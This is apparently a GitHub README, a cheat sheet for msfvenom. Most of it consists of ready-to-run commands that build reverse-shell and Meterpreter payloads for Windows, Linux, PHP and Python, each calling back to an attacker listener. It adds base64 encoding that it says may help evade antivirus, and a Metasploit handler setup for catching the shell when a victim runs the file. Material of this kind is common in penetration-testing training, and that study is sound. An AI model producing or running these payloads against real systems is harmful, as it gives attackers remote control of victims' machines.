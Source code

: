 ## 🧪 What is msfvenom?
msfvenom is a tool used to create custom payloads in different formats (e.g. .exe, .php, .py, .elf, etc.).
---

## 🧪 msfvenom Cheat Sheet – Table of Contents

- 🧪 [What is msfvenom?](#what-is-msfvenom)
- 🎯 [What Does msfvenom Do?](#what-does-msfvenom-do)
- 📌 [Basic Syntax](#basic-syntax)
- 📌 [Example](#example)
- 🔹 [Common Examples](#common-examples)
- 💻 [Windows Reverse Shell (EXE)](#windows-reverse-shell-exe)
- 🐧 [Linux Reverse Shell (ELF)](#linux-reverse-shell-elf)
- 🌐 [PHP Reverse Shell](#php-reverse-shell)
- 🐍 [Python Reverse Shell](#python-reverse-shell)
- 📦 [List Payloads](#list-payloads)
- 🧾 [List Output Formats](#list-output-formats)
- 🌀 [Encoding Payloads](#encoding-payloads)
- 🎯 [Catching the Payload (Metasploit Handler)](#catching-the-payload-metasploit-handler)
- ✅ [Summary](#summary)


---
## 🎯 What Does msfvenom Do?
Lets you generate payloads (like reverse shells or Meterpreter)

Lets you choose output format (`e.g.` `EXE` for Windows, `ELF` for Linux, `RAW` for scripting)

Supports encoding payloads 

---

## 📌 Basic Syntax

```msfvenom -p <payload> LHOST=<your-ip> LPORT=<your-port> -f <format> > <output-file>```
Example

```msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.14.3 LPORT=4444 -f raw > shell.php```

This command automatically creates the file shell.php in the directory where you are currently.

Explataiton  ⬆️

| Argument           | Description   ⬆️⬆️                                                              |
|--------------------|-----------------------------------------------------------------------------|
| `-p <payload>`      | Payload type (e.g. `windows/meterpreter/reverse_tcp`)                      |
| `LHOST=<your-ip>`   | Your IP address (listener / attacker machine)                              |
| `LPORT=<your-port>` | Listening port on your machine                                              |
| `-f <format>`       | Format of output file (e.g. `exe`, `elf`, `raw`, `apk`, `py`)              |
| `> <output-file>`   | Redirects the payload to a file (e.g. `shell.exe`)                         |

---

#### 📌 Example

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.3 LPORT=4444 -f exe > shell.exe
```

---

##🔹 Common Examples

- Windows Reverse Shell (EXE file)
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=4444 -f exe > shell.exe
```
- Linux Reverse Shell (.elf)
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=4444 -f elf > shell.elf
```

```chmod +x shell.elf  # Make it executable
```
- PHP Reverse Shell
```
msfvenom -p php/reverse_php LHOST=10.10.X.X LPORT=4444 -f raw > shell.php
```
You must add:
```
<?php
// shell code here
?>
```
- Python Reverse Shell
```
msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=4444 -f raw > shell.py
```

---

-🔹 List Payloads

msfvenom -l payloads
-🔹 List Output Formats


msfvenom --list formats
Examples: exe, elf, raw, php, asp, py, war, c, rb, bash

-🔹 Optional: Encoding Payloads
Encoders change how the payload looks. They do not guarantee AV bypass but may help.


msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.X.X -f raw -e php/base64
-🔹 Catching the Payload
To receive the connection, set up the handler in Metasploit:



use exploit/multi/handler
set payload php/reverse_php
set LHOST 10.10.X.X
set LPORT 4444
run
When the victim executes the payload, you get a shell.

## ✅ Summary
Tool	Purpose
msfvenom	Generates custom payloads in multiple formats
-p	Choose payload
LHOST	Your IP (listener)
LPORT	Your port
-f	Output format
>	Save to file
